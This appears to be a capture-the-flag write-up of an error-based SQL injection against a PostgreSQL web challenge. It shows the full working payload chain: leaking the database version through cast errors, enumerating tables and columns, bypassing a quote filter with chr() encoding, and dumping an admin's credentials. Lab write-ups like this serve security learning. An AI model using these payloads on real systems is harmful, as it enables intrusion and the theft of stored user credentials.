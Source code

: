 ```yaml
---
layout: default
title: SQL-injection-Error
---
```


We can see that when giving for example
```
?action=contents&order=ASC'
```
we get error, which says:
```
SELECT * FROM contents order by page ASC'
```
So, we can see the query. 
Let's try and give `ASC limit 1`, and see if it works.

Yes, it does, so let's continue to more complicated, giving something like this:
```
ASC limit (SELECT @@version)
```

I'm trying to grab the version, based on [portswigger sql injection cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), We give the different payloads:
```sql
Oracle          SELECT banner FROM v$version
                SELECT version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL	        SELECT @@version
```

When giving the payload of `PostgreSQL`, we get this error message:
```
ERROR:  argument of LIMIT must be type bigint, not type text
LINE 1: ...IT;SELECT * FROM contents order by page ASC limit (SELECT ve...
                                                             ^
```

Okay, so let's try and cast it:
```
ASC limit (cast((SELECT version()) as int))
```
And we get:
```
ERROR:  invalid input syntax for integer: "PostgreSQL 9.5.25 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit"
```
![poc error leaking data](./images/SQL-injection-Error_poc.png)

Well done, now we only need to exfiltrate the data

First, leak the table names. you can change the offset until dumping while db, in our case the first offset is working
```
ASC limit (cast((SELECT table_name FROM information_schema.tables limit 1 offset 0) as int))
```

The table name is `m3mbr35t4bl3`, now leak columns;
```
ASC limit (cast((SELECT column_name FROM information_schema.columns where table_name='m3mbr35t4bl3' limit 1 offset 1) as int))
```

However, we can't use `'`, so i wrote this quick python script:
```py
print( 'concat(' + ','.join([f"chr({ord(i)})" for i in list("m3mbr35t4bl3")]) + ')' )
```
And now we can give it:
```sql
concat(chr(109),chr(51),chr(109),chr(98),chr(114),chr(51),chr(53),chr(116),chr(52),chr(98),chr(108),chr(51))
```

So, the columns we get:
```
id
us3rn4m3_c0l
p455w0rd_c0l
em41l_c0l
```

Now, let's extract whole data, by giving this query:
```
ASC limit (cast((SELECT concat(id,chr(09),us3rn4m3_c0l,chr(09),p455w0rd_c0l,chr(09),em41l_c0l) FROM m3mbr35t4bl3 limit 1 offset 0) as int))
```

And we got:
```
1	admin	1a2BdKT5DIx3qxQN3UaC	admin@localhost
```

![FINAL](./images/SQL-injection-Error_FINAL.png)

**Flag:** **_`1a2BdKT5DIx3qxQN3UaC`_**